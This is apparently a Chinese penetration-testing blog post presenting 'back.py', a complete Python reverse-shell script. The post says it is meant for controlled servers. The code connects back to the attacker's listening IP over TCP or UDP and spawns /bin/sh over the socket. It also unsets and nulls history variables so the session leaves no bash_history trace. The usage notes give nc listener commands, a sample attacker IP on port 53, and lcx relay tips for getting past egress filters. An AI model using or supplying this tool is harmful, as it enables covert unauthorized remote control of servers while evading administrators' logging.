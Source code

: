 ```yaml
---
title: back.py反弹shell
date: 2017-09-11 17:50:57
tags: 
    - 渗透
    - 内网
    - Python
categories: 渗透
---
```


back.py会自动去掉各种history记录，确保shell断掉的时候不会被记录到bash_history里面，而且反弹也稳定不会断，推荐使用

<!-- more -->


back.py会自动去掉各种history记录，确保shell断掉的时候不会被记录到bash_history里面，而且反弹也稳定不会断，推荐使用
使用方法：back.py 你本地监听的IP 端口 [udp]

首先本地使用nc监听：nc -l -vv -p 53

然后被控服务器执行：back.py 114.113.112.111 53即可

如果不行，请确定服务器53端口能出去（测试方法就是ping百度，看看能否解析出地址）。或者先使用lcx监听，再本地用nc连接lcx。

udp是为了突破某些连53端口都出不去时的情景，也不全成功，udp传输的话会不稳定，不多说了上代码


``` python
# -*- coding:utf-8 -*-

#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
UDP by anthrax@insight-labs.org
"""
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port> [udp]' % name

def main():
    if len(sys.argv) <3:
        usage(sys.argv[0])
        sys.exit()
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        if sys.argv[3]=='udp':
            s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
    except:pass
    try:
        s.connect((sys.argv[1],int(sys.argv[2])))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    global shell
    os.unsetenv("HISTFILE")
    os.unsetenv("HISTFILESIZE")
    os.unsetenv("HISTSIZE")
    os.unsetenv("HISTORY")
    os.unsetenv("HISTSAVE")
    os.unsetenv("HISTZONE")
    os.unsetenv("HISTLOG")
    os.unsetenv("HISTCMD")
    os.putenv("HISTFILE",'/dev/null')
    os.putenv("HISTSIZE",'0')
    os.putenv("HISTFILESIZE",'0')
    pty.spawn(shell)
    s.close()

if __name__ == '__main__':
    main()
```


